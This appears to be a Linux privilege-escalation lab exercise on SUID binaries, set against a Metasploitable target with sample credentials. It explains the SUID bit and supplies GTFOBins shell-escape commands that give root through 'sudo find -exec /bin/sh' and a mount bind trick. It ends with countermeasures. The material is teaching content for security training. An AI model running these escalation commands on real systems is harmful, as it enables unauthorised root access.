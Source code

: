 NEVER EXECUTE COMMANDS WITH sudo or root user and avoid using SUID binaries in the job.

## SUID/SGID
SUID, which stands for set user ID, is a Linux feature that allows users to execute a file with the permissions of a specified user. For example, the Linux ping command typically requires root permissions to open raw network sockets. By marking the ping program as SUID with the owner as root, ping executes with root privileges whenever a low-privileged user runs the program.

````
alice@metasploitable:~$ ls -la /bin | grep rwsr
-rwsr-xr--  1 root fuse  20056 2008-02-26 13:25 fusermount
-rwsr-xr-x  1 root root  81368 2008-04-14 23:36 mount
-rwsr-xr-x  1 root root  30856 2007-12-10 12:33 ping
-rwsr-xr-x  1 root root  26684 2007-12-10 12:33 ping6
-rwsr-xr-x  1 root root  25540 2008-04-02 21:08 su
-rwsr-xr-x  1 root root  63584 2008-04-14 23:36 umount
````
SUID is a feature that, when used correctly, actually improves Linux security. The problem is that administrators can unknowingly introduce dangerous SUID configurations when installing third-party applications or making logical configuration changes.

Many system administrators don't know where to set the SUID bit and where not to. The SUID bit should not be set, especially on a file editor, because an attacker can overwrite all files on the system.

----
**Exercise :**
- IP : 10.12.1.36
- ID : alice
- PASSWORD : alice

Connect to 10.12.1.36 with alice account.

- Display the executables whose SUID bit is set.
    > sudo -l

- [Look at the gtfobins site to see which executable would give you root privileges](https://gtfobins.github.io/)
    > find
    
    > sudo find . -exec /bin/sh \; -quit
	> mount
	> sudo mount -o bind /bin/sh /bin/mount
   > sudo mount


- Execute de the command.
- What is the executable that is exploitable and has the possibility to configure the suid ? 
    > Your answer

And BIM !
<details><summary>Hints</summary></details>

---- 

**Countermeasures :**
The SUID bit should not be set on a program that allows you to escape to the shell.
You should never set the SUID bit on a file editor/compiler/interpreter because an attacker can easily read/overwrite all files on the system.
